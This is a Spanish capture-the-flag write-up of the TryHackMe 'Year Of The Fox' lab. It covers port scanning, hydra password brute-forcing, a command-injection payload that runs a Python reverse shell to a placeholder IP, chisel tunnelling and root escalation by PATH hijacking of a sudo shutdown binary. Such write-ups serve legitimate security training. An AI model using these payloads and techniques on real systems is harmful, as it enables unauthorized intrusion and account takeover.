 ```yaml
---
title : "Year Of The Fox - Write Up - Español"
date : 2021-10-17T12:39:31+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "Máquina de nivel díficil en TryHackMe."
tags : ["hydra","RCE","chisel","PATH","TryHackMe"]
---
```


| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/yotf)  | Difícil  |  [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle)  |

## Reconocimiento

Comencemos con un escaneo normal de nmap.

```bash
╰─ lanfran@parrot ❯ sudo nmap 10.10.174.23 -p- -sS --min-rate 5000 -n -Pn                                                                                                ─╯
[sudo] password for lanfran: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-17 12:33 CEST
Nmap scan report for 10.10.174.23
Host is up (0.083s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 24.37 seconds
```
¡Excelente! ¡Tenemos un servidor web y un servicio microsoft-ds funcionando!

Analicemos el servidor de archivos con `enum4linux`.

```bash
╰─ lanfran@parrot ❯ enum4linux 10.10.174.23                                                                                                                           ─╯
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Oct 17 12:34:44 2021

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.10.174.23
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ==================================================== 
|    Enumerating Workgroup/Domain on 10.10.174.23    |
 ==================================================== 
[...]
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\fox (Local User)
S-1-22-1-1001 Unix User\rascal (Local User)
[...]
```
¡Woho! ¡Más información! Ahora tenemos 2 usuarios:
	`Fox`
	`Rascal`

Vayamos ahora al servidor web. 

## Acceso inicial - Usuario

![login](login.png)

Ups, nos está solicitando una contraseña y un usuario, tal vez podamos forzarlo con `hydra` y los usuarios que encontramos antes...
```bash
╰─ lanfran@parrot ❯ hydra -l rascal -P /usr/share/wordlists/rockyou.txt -u  -s 80  10.10.174.23 http-head /                                                              ─╯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-17 12:38:59
[WARNING] http-head auth does not work with every server, better use http-get
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-head://10.10.174.23:80/
[STATUS] 3492.00 tries/min, 3492 tries in 00:01h, 14340907 to do in 68:27h, 16 active
[80][http-head] host: 10.10.174.23   login: rascal   password: marinel
```
¡Sí! ¡Funcionó! Ahora podemos iniciar sesión en la página y ver qué hay dentro _(Por cierto, no elimino la contraseña descifrada porque esta máquina cambia la contraseña en cada reinicio...)_

![loged](loged.png)

Mmm... Una página simple con un input...


Después de mucha investigación, podemos obtener una shell reversa a partir del input con este exploit:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("tu_ip",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 

-----

"\";echo "pega tu base64 payload aquí" | base64 -d | bash;\""
```
Ejecútelo con `Burp Suite` o incluso con `cURL`.

![exploited](exploit.png)

Y estamos dentro, ¡ahora podemos leer la flag de web!
```bash
www-data@year-of-the-fox:/var/www$ cat web-flag.txt 
THM{[REDACTADO]}
```
Investigando, encontré que el puerto `22` está abierto y escuchando, pero solo para la máquina local, ¡así que tenemos que crear un túnel y podemos atacarlo con fuerza bruta!
```bash
$ netstat -tulwn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:22            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN     
tcp6       0      0 :::139                  :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::445                  :::*                    LISTEN     
udp        0      0 10.10.255.255:137       0.0.0.0:*                          
udp        0      0 10.10.174.23:137        0.0.0.0:*                          
udp        0      0 0.0.0.0:137             0.0.0.0:*                          
udp        0      0 10.10.255.255:138       0.0.0.0:*                          
udp        0      0 10.10.174.23:138        0.0.0.0:*                          
udp        0      0 0.0.0.0:138             0.0.0.0:*                          
udp        0      0 127.0.0.53:53           0.0.0.0:*                          
udp        0      0 10.10.174.23:68         0.0.0.0:*                          
raw6       0      0 :::58                   :::*                    7          
$ 
```
Creemos el túnel ahora con `chisel`. _Tenga en cuenta que chisel no está instalado en la máquina, así que tuve que cargar un binario estático._
```bash
[Máquina del atacante]

╰─ lanfran@parrot ❯ ./chisel server -p 4444 --reverse &                                                                                                                 ─╯
[1] 1717758
2021/10/17 12:56:35 server: Reverse tunnelling enabled                                                                                                                     
2021/10/17 12:56:35 server: Fingerprint V4me3/cc0B0GtMPIyoYclwAhXCzh24uFYKuxh3M+jcY=
2021/10/17 12:56:35 server: Listening on http://0.0.0.0:4444

--------
[Máquina de la victima]

www-data@year-of-the-fox:/tmp$ ./chisel client 10.9.4.36:4444 R:2222:127.0.0.1:22
2021/10/17 11:58:01 client: Connecting to ws://10.9.4.36:4444
2021/10/17 11:58:01 client: Connected (Latency 54.77722ms)
```
Genial, ya que ahora podemos ver el puerto abierto `22` en la máquina, en nuestro puerto local `2222`, usemos la fuerza bruta con el usuario `fox`.

```bash
╰─ lanfran@parrot ❯ hydra -l fox -P /usr/share/wordlists/rockyou.txt -u -s 2222 127.0.0.1 ssh                                                                           ─╯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-17 12:57:10
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[STATUS] 177.00 tries/min, 177 tries in 00:01h, 14344223 to do in 1350:41h, 16 active
[2222][ssh] host: 127.0.0.1   login: fox   password: roberto
```
¡Excelente! tenemos la contraseña, ahora iniciemos sesión a través de `ssh` y leamos la flag del usuario.

```bash
╰─ lanfran@parrot ❯ ssh -p 2222 fox@localhost                                                                                                                           ─╯
fox@localhost's password: 


	__   __                       __   _   _            _____         
	\ \ / /__  __ _ _ __    ___  / _| | |_| |__   ___  |  ___|____  __
	 \ V / _ \/ _` | '__|  / _ \| |_  | __| '_ \ / _ \ | |_ / _ \ \/ /
	  | |  __/ (_| | |    | (_) |  _| | |_| | | |  __/ |  _| (_) >  < 
	  |_|\___|\__,_|_|     \___/|_|    \__|_| |_|\___| |_|  \___/_/\_\


                                                                  
fox@year-of-the-fox:~$ cat user-flag.txt 
THM{[REDACTADO]}
fox@year-of-the-fox:~$ 
```
## Root

Para escalar a root, necesitaremos encontrar una forma de explotar un binario, que podamos ejecutar con sudo.
```bash
fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
```
Algunas cosas están sucediendo aquí. El `secure_path` no está configurado, y tenemos un binario, que después de hacer un poco de reversing, podemos ver que está usando otro binario, `poweroff`.
```bash
╰─ lanfran@parrot ❯ strings shutdown                                                                                                                                                                    ─╯
/lib64/ld-linux-x86-64.so.2
libc.so.6
system
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
poweroff.  <------- Aquí
```
Entonces, para recapitular, podemos crear un binario malicioso para que actúe como `poweroff` y establecer el `$PATH` en nuestro directorio de trabajo actual. ¡Hagamoslo!
```bash
fox@year-of-the-fox:/tmp$ cp /bin/bash poweroff
fox@year-of-the-fox:/tmp$ sudo "PATH=/tmp:$PATH" /usr/sbin/shutdown
root@year-of-the-fox:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```
¡Y lo conseguimos!
Ahora, para la flag de root restante, leamos el archivo que está en `/home/rascal/` y eliminemos todos los saltos de línea.
```bash
root@year-of-the-fox:/tmp# ls -la /home/rascal/
total 24
drwxr-x--- 2 rascal rascal 4096 Jun  1  2020 .
drwxr-xr-x 4 root   root   4096 May 28  2020 ..
lrwxrwxrwx 1 root   root      9 May 28  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rascal rascal  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 rascal rascal 3771 Apr  4  2018 .bashrc
-r-------- 1 rascal root    158 Jun  9  2020 .did-you-think-I-was-useless.root
-rw-r--r-- 1 rascal rascal  807 Apr  4  2018 .profile
root@year-of-the-fox:/tmp# cat /home/rascal/.did-you-think-I-was-useless.root | tr -d '\n'
THM{[REDACTADO]]}Here's the prize:YTAyNzQ3ODZlMmE2MjcwNzg2NjZkNjQ2Nzc5NzA0NjY2Njc2NjY4M2I2OTMyMzIzNTNhNjk2ODMwMwo=Good luck!
```

¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!